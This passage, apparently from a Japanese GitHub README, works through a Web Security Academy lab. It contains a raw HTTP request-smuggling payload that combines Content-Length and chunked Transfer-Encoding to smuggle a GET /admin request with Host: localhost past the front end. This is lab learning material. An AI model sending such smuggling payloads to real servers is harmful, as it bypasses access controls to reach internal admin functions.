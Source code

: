 ![](./images/README_231016_121526.png)


またエラーが出ています。

`Duplicate header names are not allowed`つまり、Hostが重複しているため出ていそうです。

```text
GET /admin HTTP/1.1
Host: localhost
s: POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked

0
```

多分内部ではこのようなリクエストを解釈しています。

そのため、`Host header`が重複してしまっているのでしょう。

つまり以下のように送ればエラーが起きないはずです。

```text
POST / HTTP/1.1
Host: 0a570045043ffbdd81e87aea00b000ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
